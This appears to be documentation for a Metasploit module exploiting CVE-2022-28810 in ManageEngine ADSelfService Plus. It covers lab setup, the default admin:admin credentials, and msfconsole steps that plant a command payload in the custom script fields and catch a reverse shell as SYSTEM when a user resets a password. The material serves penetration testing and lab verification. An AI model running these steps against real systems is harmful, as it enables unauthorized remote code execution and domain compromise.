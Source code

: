 ## Vulnerable Application

### Description

This module exploits the "custom script" feature of ADSelfService Plus. The
feature was removed in build 6122 as part of the patch for CVE-2022-28810.
For purposes of this module, a "custom script" is arbitrary operating system
command execution.

This module uses an attacker provided "admin" account to insert the malicious
payload into the custom script fields. When a user resets their password or
unlocks their account, the payload in the custom script will be executed.
The payload will be executed as SYSTEM if ADSelfService Plus is installed as
a service, which we believe is the normal operational behavior.

This is a passive module because user interaction is required to trigger the
payload. This module also does not automatically remove the malicious code from
the remote target. Use the "TARGET_RESET" operation to remove the malicious
custom script when you are done.

ADSelfService Plus uses default credentials of "admin":"admin"

### Setup

Follow the [Getting Started] guide. You will need an AD environment and at least two
accounts: an AD admin for ADSelfService Plus and a test account to enroll in the
service. The service runs on Windows (any it seems - I tested on Windows 10), so
you'll need that.

1. Prepare a Windows environment to install on.
1. Download [ManageEngine_ADSelfService_Plus_64bit.exe] build 6121
1. Run the installer (skip registeration). Do **not** "Start ADSelfService Plus in console mode".
1. Run the service installer (start menu -> "Install ADSelfService Plus as Service")
1. Start the service (services -> "ManageEngine ADSelfService Plus")
1. Nagivate to the web server: http://localhost:8888 (may take a few minutes to load)
1. Log in as "admin" (password: admin)
1. Connect the AD DC: enter the domain name and hit discover. Provide credentials when prompted.
1. Enroll users via "Configuration" -> "Administration Tools" -> "Quick Enrollment" ->
"Import Users from CSV". Download the "sample.csv, edit it with your test user and
upload it." Also use "Import" -> "Answer" in the drop down.
1. Logout from the admin account and log in as the newly enrolled user to configure
the secret question responses. Once completed the test user should be fully enrolled
and ready for hax.
1. You may need to open up port 8888 on the firewall. I've encountered ADSSP forgetting to do so.

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module is waiting for a reverse TCP connection
* Navigate to the ADSelfService Plus web UI and reset your test users password.
* After a new password has been set verify the module received a reverse shell.
* Exit the shell
* Do `set TARGET_RESET true`
* Do `run`
* Navigate to the ADSelfService Plus web UI, log in as admin, and verify that the custom
scripts have been removed and disabled ("Configuration" -> "Self Service" ->
"Policy Configuration" -> "Advanced" -> "Password Sync")
